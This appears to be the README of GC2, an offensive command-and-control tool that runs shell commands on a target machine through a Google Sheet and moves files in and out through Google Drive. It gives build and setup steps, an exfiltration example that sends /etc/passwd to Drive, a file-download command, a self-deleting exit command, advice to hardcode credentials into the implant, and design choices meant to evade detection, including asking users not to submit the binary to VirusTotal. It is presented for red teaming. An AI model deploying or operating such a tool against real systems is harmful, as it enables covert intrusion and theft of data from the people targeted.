


# GC2

<p align="center">
  
</p>

GC2 (Google Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using Google Sheet and exfiltrates data using Google Drive.

# Why

This program has been developed in order to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Google's domains (*.google.com) to make detection more difficult.

PS: Please don't upload the compiled binary on VirusTotal :)   

# Set up

1. **Build executable**
 
    ```bash
    git clone <asdf>
    cd <asdf>
    go build gc2-sheet.go
    ```

2. **Create a new google "service account"**
 
    Create a new google "service account" using [https://console.cloud.google.com/](https://console.cloud.google.com/), create a .json key file for the service account 

3. **Enable Google Sheet API and Google Drive API**

    Enable Google Drive API [https://developers.google.com/drive/api/v3/enable-drive-api](https://developers.google.com/drive/api/v3/enable-drive-api) and Google Sheet API [https://developers.google.com/sheets/api/quickstart/go](https://developers.google.com/sheets/api/quickstart/go) 

3. **Set up Google Sheet and Google Drive**

    Create a new Google Sheet and add the service account to the editor group of the spreadsheet (to add the service account use its email)
    
    
    
    Create a new Google Drive folder and add the service account to the editor group of the folder (to add the service account use its email)
    
    

4. **Start the C2**

    ```bash
    gc2-sheet --key <GCP service account credential in JSON> --sheet <Google sheet ID> --drive <Google drive ID>
    ```
   
   PS: you can also hardcode the parameters in the code, so you will upload only the executable on the target machine (look at comments in root.go and authentication.go)

## Features

- Command execution using Google Sheet as a console
- Download files on the target using Google Drive
- Data exfiltration using Google Drive
- Exit

### Command execution

The program will perform a request to the spreedsheet every 5 sec to check if there are some new commands.
Commands must be inserted in the column "A", and the output will be printed in the column "B". 

### Data exfiltration file

Special commands are reserved to perform the upload and download to the target machine

 ```bash
From Target to Google Drive
upload;<remote path>
Example:
upload;/etc/passwd
 ```

### Download file

Special commands are reserved to perform the upload and download to the target machine

 ```bash
 From Google Drive to Target
download;<google drive file id>;<remote path>
Example:
download;<file ID>;/home/user/downloaded.txt
 ```

### Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

PS: From *os* documentation: 
*If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case the symlink is deleted.

# Demo

[Demo](https://youtu.be/n2dFlSaBBKo)

# Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

# Support the project

**Pull request** or [](https://www.paypal.com/donate?hosted_button_id=8EWYXPED4ZU5E)
